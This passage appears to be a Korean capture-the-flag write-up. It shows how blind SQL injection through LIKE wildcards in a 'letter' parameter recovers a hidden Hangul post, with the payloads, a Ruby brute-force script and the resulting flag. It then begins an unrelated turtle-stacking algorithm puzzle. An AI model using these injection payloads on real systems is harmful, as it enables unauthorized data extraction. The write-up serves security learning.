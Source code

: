 여기에서 4번 글의 길이를 알아낼 수 있는데요, like의 와일드카드 `_`를 사용하면 됩니다. 길이가 맞지 않으면 `존재하지 않는 글입니다` 메시지가 나오고, 길이가 맞으면 `Secret :)`을 볼 수 있습니다.

``` plain
?letter=-1 or letter like "_" and no=4
?letter=-1 or letter like "__" and no=4
?letter=-1 or letter like "___" and no=4
...
```

길이는 10글자입니다. 문제는 글의 내용인데요, `"%A%"` 등의 알파벳이 존재하지 않습니다. 처음 등장한 Clue에서 `utf32_unicode_ci`라는 부분을 생각하면 글이 한글로 이루어져 있는 것 같습니다. 마찬가지로 like를 이용해 한글 글자를 빼냅니다:

``` ruby
require 'net/http'

('가'..'힣').each do |char|
  puts char if Net::HTTP.get_response(URI.parse("http://web-prob.dkserver.wo.tc/sqli_962a035aacf08966ffc7610957ac0c29/?letter=-1%20or%20letter%20like%20%27#{URI.escape("%#{char}%")}%27%20and%20no=4")).body.force_encoding('utf-8') =~ /Secret/
end
```

끝까지 돌렸다면 아마 아래와 같은 결과가 나왔을 것입니다만, 다 나오기 전에 게싱했습니다.

``` plain
그
날
는
라
래
리
아
야
오
플
```

각 글자의 자리는 `__________`의 각 글자 중 한 자리에 넣어봄으로써 알아냈습니다. 글 내용은 `플래그는오리야날아라`였습니다.

Flag는 `오리야날아라`입니다.

## <a id="weight-and-measures"></a>WEIGHT AND MEASURES - ALGO200

> 밤(bam)이라는 검은 거북이가 친구들과 햄버거놀이를 하기 위해 문의를 해왔다. 혹시 놀이를 하다가 다칠 수도 있기 때문이다. 햄버거놀이를 하기 위해 동원된 거북이는 체중과 체력이 모두 다르다. 가능한 한 가장 많은 거북이를 쌓는 방법을 찾아보자.
>
> [+] Notice : 여러 줄이 입력되는데, 한 줄에 한 쌍의 정수가 입력된다. 첫번째 정수는 체중을, 두번째 정수는 거북이의 체력을 나타낸다. 거북이의 체중은 그램 단위로 입력된다. 즉 체중이 600g이고 체력이 1500인 거북이의 등 위에는 900g을 올려놓을 수 있다.
>
> [+] Notice : 어떤 거북이도 자기 체력이 허용하는 한도 내에서만 등 위에 다른 거북이를 올려놓으면서, 몇 마리의 거북이를 쌓을 수 있는지를 나타내는 정수를 출력한다.
>
> 3초 안에 계산해서 제출해야 한다. 제출 방식은 쌓을 수 있는 거북이의 숫자 turtles로 제출하면 된다.
>
> [+] examples
>
> 거북이 = 4마리
>
> No.1
>
> 1300
>
> 1710
>
> No.2
>
> 100